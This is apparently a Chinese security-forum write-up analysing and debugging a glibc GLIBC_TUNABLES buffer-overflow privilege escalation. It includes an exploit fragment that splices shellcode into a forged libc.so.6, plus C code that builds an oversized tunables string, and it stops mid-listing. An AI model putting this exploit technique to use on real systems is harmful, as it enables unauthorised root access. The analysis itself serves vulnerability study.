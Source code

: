 

# 一次glibc 提权漏洞的分析与调试 - 先知社区

一次glibc 提权漏洞的分析与调试

- - -

# 漏洞版本

glibc 2.35-0ubuntu3 (aarch64)

glibc 2.36-9+deb12u2 (amd64)

# 漏洞利用

## exp关键代码

```plain
with open(hax_path["path"] + b"/libc.so.6", "wb") as fh:
        fh.write(libc_e.d[0:__libc_start_main])
        fh.write(shellcode)
        fh.write(libc_e.d[__libc_start_main + len(shellcode) :])
```

**exp代码思路**

该漏洞发生在 GLIBC\_TUNABLES 环境变量处理过程中，可能存在缓冲区溢出漏洞。  
通过修改 GLIBC\_TUNABLES 的值来替换 libc 的加载路径，从而加载自己修改过的恶意库。  
找到一个合适的栈地址来覆盖原始的 libc 加载路径  
使用 ASLR 关闭的方式来尝试利用该漏洞

## 调试

**test.c**

```plain
#include <stdio.h>

unsigned long ptr = -0x18ULL;

int main(int argc, char *argv[])
{
    printf("test");
    return 0;
}
```

**环境变量**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void *__minimal_malloc(size_t size) {
    return malloc(size);
}

int main() {
    char fill[0xd00];
    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=";
    strcpy(fill, prefix);

    size_t prefixLength = strlen(prefix);
```